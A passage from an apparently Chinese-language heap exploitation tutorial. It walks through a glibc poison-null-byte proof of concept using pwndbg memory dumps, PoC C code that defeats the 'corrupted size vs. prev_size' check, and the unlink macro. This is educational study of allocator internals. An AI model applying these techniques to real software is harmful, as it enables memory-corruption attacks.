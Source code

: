 ```c
    								0x0000000000000000
0x555555758170:	0x0000000000000000	0x0000000000000510 #c(malloc)
#pwndbg> p/t 0x0000000000000a00
#$34 = 101000000000
#pwndbg> 
    
//这里的堆块可控范围指的是堆块中user_data的大小
```

接下来执行下面的代码，这两行代码没有实际作用，主要是为了查看堆块c的mchunk_prev_size方便

```c
	uint64_t* c_prev_size_ptr = ((uint64_t*)c)-2;
	printf("c.prev_size is %#lx\n",*c_prev_size_ptr);
```

```c
pwndbg> x/800gx 0x555555757000
......
0x555555758170:	0x0000000000000a10	0x0000000000000510 #c(malloc)
				//*c_prev_size_ptr==0xa10
......
pwndbg> 
```

接下来来到一个比较重点的地方：

```c
	// This malloc will result in a call to unlink on the chunk where b was.
	// The added check (commit id: 17f487b), if not properly handled as we did before,
	// will detect the heap corruption now.
	// The check is this: chunksize(P) != prev_size (next_chunk(P)) where
	// P == b-0x10, chunksize(P) == *(b-0x10+0x8) == 0xa00 (was 0xa10 before the overflow)
	// next_chunk(P) == b-0x10+0xa00 == b+0x9f0
	// prev_size (next_chunk(P)) == *(b+0x9f0) == 0xa00
	printf("We will pass the check since chunksize(P) == %#lx == %#lx == prev_size (next_chunk(P))\n",
		*((size_t*)(b-0x8)), *(size_t*)(b-0x10 + *((size_t*)(b-0x8))));
	b1 = malloc(0x500);

	printf("b1: %p\n",b1);
	printf("Now we malloc 'b1'. It will be placed where 'b' was. "
		"At this point c.prev_size should have been updated, but it was not: %#lx\n",*c_prev_size_ptr);
	printf("Interestingly, the updated value of c.prev_size has been written 0x10 bytes "
		"before c.prev_size: %lx\n",*(((uint64_t*)c)-4));
```

我们先来看一下POC中的注释：“接下来的malloc将会在调用时触发unlink，但是为了POC的正常执行我们必须绕过unlink中的检查”，我们这里再复习一下unlink宏中的代码：

```c
/* Take a chunk off a bin list */
#define unlink(AV, P, BK, FD) {                                            
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      
      malloc_printerr ("corrupted size vs. prev_size");			      
    FD = P->fd;								      
    BK = P->bk;								      
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))  //检查双向链表的完整性      
      malloc_printerr ("corrupted double-linked list");			      
    else {								      
        FD->bk = BK;							      
        BK->fd = FD;							      
        if (!in_smallbin_range (chunksize_nomask (P))			      
            && __builtin_expect (P->fd_nextsize != NULL, 0)) {		      
				//省略有关于largebin unlink的代码......	      
          }								      
      }									      
```